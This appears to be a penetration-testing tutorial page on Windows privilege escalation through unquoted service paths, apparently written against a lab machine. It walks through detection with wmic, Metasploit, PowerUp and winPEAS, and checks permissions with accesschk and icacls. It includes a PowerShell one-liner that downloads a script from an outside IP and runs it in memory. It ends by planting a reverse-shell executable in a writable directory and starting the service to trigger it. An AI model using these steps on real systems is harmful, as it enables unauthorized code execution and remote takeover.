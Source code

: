 # Unquoted Service Path

Executables in Windows can be run without using their extension \(e.g. “whoami.exe” can be run by just typing “whoami”\). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

 To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn. **If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## detecting unquoted service paths

### manual method

```text
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows \(since by default there is no such service which has spaces and is unquoted in this folder\). Also, we need to exclude those services that are enclosed within the double quotes.

### automated with metasploit

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```text
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### automated using powerup

```text
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### automated with winPEAS

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%2889%29.png)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```text
sc qc unquotedsvc
```

![](../../../../.gitbook/assets/image%20%2890%29.png)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```text
accesschk.exe -ucqv user unquotedsvc
```

![](../../../../.gitbook/assets/image%20%2875%29.png)

we have start permission, now check for write permission on each directory path to the binary file:

```text
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```text
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](../../../../.gitbook/assets/image%20%2873%29.png)

it looks like all the members of the builtin\users group have RW \(read/write\) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. \(because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```text
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start unquotedsvc
```

![](../../../../.gitbook/assets/image%20%2886%29.png)









